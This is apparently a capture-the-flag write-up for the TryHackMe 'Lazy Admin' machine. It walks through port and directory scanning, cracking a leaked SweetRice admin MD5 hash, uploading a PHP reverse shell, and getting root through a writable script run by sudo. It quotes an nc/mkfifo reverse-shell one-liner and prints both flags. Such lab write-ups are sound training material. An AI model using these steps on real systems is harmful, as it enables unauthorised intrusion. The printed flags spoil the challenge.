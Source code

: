 # Lazy Admin

export IP=10.10.13.147

## nmap

```sh
nmap -A -sC -sV -T4 -p- $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-01 16:24 WEST
Nmap scan report for 10.10.13.147
Host is up (0.091s latency).
Not shown: 65533 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Apache/2.4.18 (Port 80)

![Default page Apache](img/default_page_apache.png)

### dirb

```sh
gobuster -u http://$IP/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:28:10 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/server-status (Status: 403)
=====================================================
2023/09/01 16:32:42 Finished
=====================================================
```

### Basic CMS SweetRice

![Content page](img/content.png)

```sh
gobuster -u http://$IP/content/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/content/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:42:08 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/js (Status: 301)
=====================================================
2023/09/01 16:46:48 Finished
=====================================================
```

A quick search about CMS SweetRice let us discover some critical vulnerabilities to exploit.

Also is likely possible to search for the default password as the admin is lazy :)

However, I decided to do some research myself looking for new ways to get into this machine since searching for "Basic CMS SweetRice" led me to other write-ups from THM users.

In this sql file (at `/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`) we can find the following:

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

A closer look at this discovery lets us know that the admin username is `manager` and the admin password hash (MD5) is `42f749ade7f9e195bf475f37a44cafcb`.

```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

### John

Let's use John the Ripper to crack this hash:

```sh
echo "42f749ade7f9e195bf475f37a44cafcb" > hash.txt
john-the-ripper --format=Raw-MD5 hash.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/snap/john-the-ripper/current/run/password.lst
Enabling duplicate candidate password suppressor
Password123      (?)
1g 0:00:00:00 DONE 2/3 (2023-09-01 17:22) 1.428g/s 7680p/s 7680c/s 7680C/s morena..just4fun
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

And like so we can login in `/content/as` as admin:

![Admin panel](img/admin-page.png)

We can upload this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

### PHP Reverse Shell

On the attacker machine:

```
nc -lvnp 4444
```

![Upload php reverse shell](img/upload-php-reverse-shell.png)

Finally, we click the upload php file, and boom we have a reverse shell to the machine:

![Success reverse shell](img/success-reverse-shell.png)

From here we can escalate privileges from `www-data` to `root`:

### PrivEsc

```sh
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

This file isn't writeable but we can read it:

```sh
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```sh
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

We can write to this file allowing us to privEsc to root!

```sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Looks like the itguy was also reverse shelling in this machine :P

There's no need for us to do the same we can just do the following:

```sh
$ echo "/bin/sh" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And just like so we've root privileges!

#### flags

<details>
  <summary>User flag</summary>

```sh
cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

</details>

<details>
  <summary>Root flag</summary>

```sh
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

</details>

